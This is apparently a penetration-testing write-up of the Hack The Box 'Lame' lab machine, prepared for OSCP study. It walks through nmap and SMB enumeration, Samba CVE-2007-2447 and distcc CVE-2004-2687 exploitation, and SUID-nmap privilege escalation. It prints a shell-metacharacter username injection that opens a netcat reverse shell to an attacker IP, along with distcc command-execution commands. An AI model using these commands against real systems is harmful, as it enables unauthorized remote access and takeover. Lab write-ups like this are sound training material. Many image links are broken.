

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/linux-boxes/lame-easy
---

# ✅ Lame (Easy)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** CVE-2007-2447 and CVE-2004-2687

**System Vulnerable:** 10.10.10.3

**Vulnerability Explanation:** This machine is vulnerable on the MS-RPC functionality in smbd in **Samba 3.0.0 through 3.0.25rc3** allows remote attackers to execute arbitrary commands via shell metacharacters and service **distcc** when not configured to restrict access to the server port, allows remote attackers to execute arbitrary command via compilation jobs, which are executed by the server without authorized checks.

**Privilege Escalation Vulnerability:** Nmap version out of dated and misconfigure set SUID.

**Vulnerability Fix:** Update service version and apply patch on Software and Restrict access on Samba port from outside network.

**Severity:** High

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
nmap -sC -sV -T4 10.10.10.3
```

.png>)

Again, we will run the nmap scan against all ports in the background while we are enumerating.

```
nmap -p- -T4 10.10.10.3
```

.png>)

## Enumeration

Let start enumerate each service if any of these services are either contain vulnerable versions or misconfigured.

**Port 21 vsftpd 2.3.4**

We found that on FTP which allow anonymous login but nothing is interesting.

.png>)

**Port 139 and 445 Samba 3.0.20-Debian**

Scanning nmap script to check the service vulnerable but it doesn't contain any vulnerable.

```
nmap -p139,445 --script "Vuln and safe" 10.10.10.3
```

.png>)

Let stat listing all the available share folder on server. We found interesting folder **tmp** and **opt**.

```
smbclient -L 10.10.10.3
```

.png>)

Let check the permission on that share drives and we got **Read, Write** permission on tmp.

```
smbmap -H 10.10.10.3
```

.png>)

By connected to tmp share drive and downloaded all the files, but it doesn't have anything.

.png>)

Searching on google we found samba 3.0.20 is vulnerable to CVE-2007-2447. We found that it is vulnerable to username field. If we send shell metacharacters into the username field which allow us to execute arbitrary commands.

.png>)

On exploit code we found the function def exploit at the bottom, it is creating an SMB session using:

* **username** = ``"/=nohup " + payload.encoded + "`"``
* **password** = random 16 characters
* **domain** = user provided domain

.png>)

[**nohup** ](https://www.geeksforgeeks.org/nohup-command-in-linux-with-examples/)**(No Hang Up)** is a command in Linux systems that runs the process even after logging out from the shell/terminal.

**Port 3632 distcc v1**

By searching on internet, we found this service is vulnerable to remote code execute.

.png>)

## Exploitation #1 (Samba)

We will run start our netcat listener on port 4444.

```
nc -lvp 4444
```

Execute command from smbclient on the username field but it failed.

.png>)

For 2nd attempt, we will connect smbclient first. Then, we have logon command used for changing users once connected on smbclient.

```
smb: \> logon "/=`nohup nc -e /bin/bash 10.10.14.26 4444`"
```

.png>)

.png>)

## Exploitation #2 (Distcc)

### Port 3632

First we will download script and place it in nmap script directory&#x20;


```
wget https://svn.nmap.org/nmap/scripts/distcc-cve2004-2687.nse -O /usr/share/nmap/scripts/distcc-exec.nse 
```


Now let start testing with exploit script by execute command **"id"** on the remote machine.


```
$ nmap -p 3632 10.10.103 --script distcc-exec.nse --script-args="distcc-exec.cmd='id'" -Pn
```


.png>)

Then, let check whether netcat installed on the remote machine or not. If netcat installed, we will use netcat as reverse shell connect back to our machine.

<figure><figcaption></figcaption></figure>

Let start netcat listener on our kali machine and execute reverse shell via nmap script.

.png>)

.png>)

## Privilege Escalation

### SUID nmap

Start finding set SUID misconfigure on the machine whether could allow us to escalate privilege. We found nmap script allow permission binary.

.png>)

on website [https://gtfobins.github.io/](https://gtfobins.github.io/) could allow us to find so many UNIX binaries that can be used to bypass local security restrictions in misconfigured systems and we got nmap too.

.png>)

.png>)

If nmap version is below **5.21**, we can escalation by this technique. We found nmap version on machine is **4.53** which is vulnerable to this. By executing this, we got root on machine.

.png>)
